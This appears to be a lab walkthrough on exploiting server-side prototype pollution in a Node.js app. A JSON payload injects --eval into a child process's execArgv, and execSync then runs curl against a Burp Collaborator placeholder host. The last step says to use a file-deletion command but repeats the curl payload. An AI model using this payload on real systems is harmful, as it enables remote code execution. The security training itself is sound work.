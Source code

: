<img width="1553" height="377" alt="image" src="https://github.com/user-attachments/assets/90babe22-3b59-42ea-bfde-bbbac4bd6850" />


Click the button and observe that this triggers background tasks that clean up the database and filesystem.
This is a classic example of functionality that may spawn Node.js child processes.

<img width="1738" height="433" alt="image" src="https://github.com/user-attachments/assets/9669a3f1-66fc-4baf-b36f-b1eac2e2c757" />

After clicking **Maintenance**, the page below will show up.

<img width="1487" height="480" alt="image" src="https://github.com/user-attachments/assets/7f2e7c3d-8591-48af-8b1c-dc30558b04fb" />


We can also see the HTTP request of the maintenance job in the below image.

<img width="913" height="529" alt="image" src="https://github.com/user-attachments/assets/e50adeb6-ba88-43b2-8ec4-64c8273a9b3c" />


Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process.
Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server.
For example:

```json
"__proto__": {
  "execArgv": [
    "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
  ]
}
```

Send the request.

<img width="1458" height="633" alt="image" src="https://github.com/user-attachments/assets/baab9e06-e63c-4d0d-a010-b5dd1a8443e6" />



In the browser, go to the **admin panel** and trigger the maintenance jobs again.

Notice that these jobs have both failed this time.

In Burp, go to the **Collaborator tab** and poll for interactions.
Observe that you have received several DNS interactions, confirming remote code execution.

<img width="1506" height="832" alt="image" src="https://github.com/user-attachments/assets/73bcfaa7-b131-4a88-8fdc-908b8c55a159" />

---

### Craft an exploit

1. In Repeater, replace the `curl` command with a command to delete Carlos’s file:

```json
"__proto__": {
  "execArgv": [
    "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
  ]
}
```
